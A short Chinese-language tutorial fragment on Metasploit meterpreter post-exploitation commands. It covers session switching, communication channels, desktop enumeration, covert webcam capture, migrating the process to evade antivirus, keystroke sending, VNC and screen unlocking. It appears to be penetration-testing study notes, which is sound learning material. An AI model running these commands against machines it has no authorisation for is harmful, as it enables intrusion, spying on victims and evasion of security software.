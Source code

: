 ![image-20210121000722045](../../img/image-20210121000722045.png)

```
按提示使用的post有点难于理解
```

![image-20210121000927246](../../img/image-20210121000927246.png)



#### 技巧

```
background #回到msf中
sessions -i ##查看会话
sessions -i 6 ###回到第几个会话
```

```
meterpreter的多通信通道
meterpreter >>channel -l  #列出所有可用通信通道
meterpreter >>channel -r 1
meterpreter >>edit c:\\test.txt 修改文件
meterpreter >>enumdesktop #列出可以访问的桌面
meterpreter >>getdesktop #列出当前桌面的相关信息
meterpreter >>webcam_snap  #拍摄一张照片

```

migrate：这个也是一个post模块。可以将meterpreter当前的进程移动到其他指定的进程中，这样做的好处是可以给meterpreter一个相对稳定的运行环境，同时可以很好的躲避杀软。

```
meterpreter > run post/windows/manage/migrate
```

```
meterpreter >keyboard_send hello

meterpreter > run vnc  #打开vnc
meterpreter > run screen_unlock # 屏幕解锁
meterpreter > Connected to RFB server ,using protocol version 3.8
```

